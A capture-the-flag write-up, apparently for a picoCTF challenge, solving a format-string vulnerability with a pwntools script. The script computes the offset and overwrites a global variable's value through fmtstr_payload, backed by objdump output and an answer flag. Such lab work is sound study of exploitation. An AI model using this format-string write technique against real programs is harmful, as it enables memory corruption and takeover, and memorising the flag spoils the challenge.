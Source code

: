 # Description

This program is not impressed by cheap parlor tricks <br>
like reading arbitrary data off the stack. To impress this <br>
program you must change data on the stack! <br>
Download the binary here. <br>
Download the source here. <br>
Connect with the challenge instance here: <br>
nc rhea.picoctf.net 64167

# Solution

To get the files use this command: `wget https://artifacts.picoctf.net/c_rhea/15/vuln https://artifacts.picoctf.net/c_rhea/15/vuln.c`

The hint mentioned using pwntools would be very useful for this challenge which led to finding the [pwntools documentation for solving exactly this problem](https://docs.pwntools.com/en/stable/fmtstr.html).


Script:
```
from pwn import *

context.log_level = "critical"
context.binary = ELF('./vuln')

p = remote('rhea.picoctf.net', 64167)

def exec_fmt(payload):
    p = remote('rhea.picoctf.net', 64167)
    p.sendline(payload)
    return p.recvall()

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

payload = fmtstr_payload(offset, {0x404060: 0x67616c66})

p.sendline(payload)

flag = p.recvall()

print("Flag: ", flag)
```

This uses the exec_fmt, autofmt in the [documentation](https://docs.pwntools.com/en/stable/fmtstr.html) to find the offset for the payload. To find the address `objump -D vuln` was used on the binary executable file. When searching for the function "sus" these lines could be seen.

```
  401273:	8b 05 e7 2d 00 00    	mov    0x2de7(%rip),%eax        # 404060 <sus>
  401279:	3d 66 6c 61 67       	cmp    $0x67616c66,%eax
```

The address of sus is `0x404060` and `0x67616c66` for the cmp right below. By following the pwntools documentation the payload was constructed with this data and sent to the program. After receiving the output given after sending this payload the flag is received.

Flag: `picoCTF{f0rm47_57r?_f0rm47_m3m_99...}`
